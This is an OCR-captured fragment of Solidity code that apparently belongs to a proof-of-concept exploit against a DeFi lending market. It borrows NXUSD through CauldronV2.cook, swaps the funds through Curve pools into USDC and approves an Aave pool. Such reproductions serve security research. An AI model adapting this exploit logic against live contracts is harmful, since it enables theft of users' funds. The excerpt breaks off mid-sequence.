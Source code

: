 │         datas[0] = abi.encode(borrowAmounts, address(this)); // type borrow                                                                                                                                                                          │
│         datas[1] = abi.encode(NXUSD, address(this), borrowAmounts,share); // type withdraw                                                                                                                                                           │
│         datas[2] = abi.encode(Pair, address(this), 45330977931305070, share); // type deposit                                                                                                                                                        │
│         datas[3] = abi.encode(-2, address(this), false); // Collateral enter market                                                                                                                                                                  │
│         CauldronV2.cook(actions, values, datas);                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                      │
│         // sell WAVAX`                                                                                                                                                                                                                               │
│         sellWAVAX();                                                                                                                                                                                                                                 │
│         // NXUSD -> avCRV -> USDC_e                                                                                                                                                                                                                  │
│         CRVPool1.exchange_underlying(                                                                                                                                                                                                                │
│             metaPool,                                                                                                                                                                                                                                │
│             0,                                                                                                                                                                                                                                       │
│             2,                                                                                                                                                                                                                                       │
│             998_000 * 1e18,                                                                                                                                                                                                                          │
│             950_000 * 1e6                                                                                                                                                                                                                            │
│         );                                                                                                                                                                                                                                           │
│         // USDC_e -> USDC                                                                                                                                                                                                                            │
│         USDC_e.approve(address(CRVPool2), type(uint).max);                                                                                                                                                                                           │
│         CRVPool2.exchange(0, 1, 800_000 * 1e6, 700_000 * 1e6);                                                                                                                                                                                       │
│         sellUSDC_e();                                                                                                                                                                                                                                │
│         USDC.approve(address(aaveLendingPool), type(uint).max);                                                                                                                                                                                      │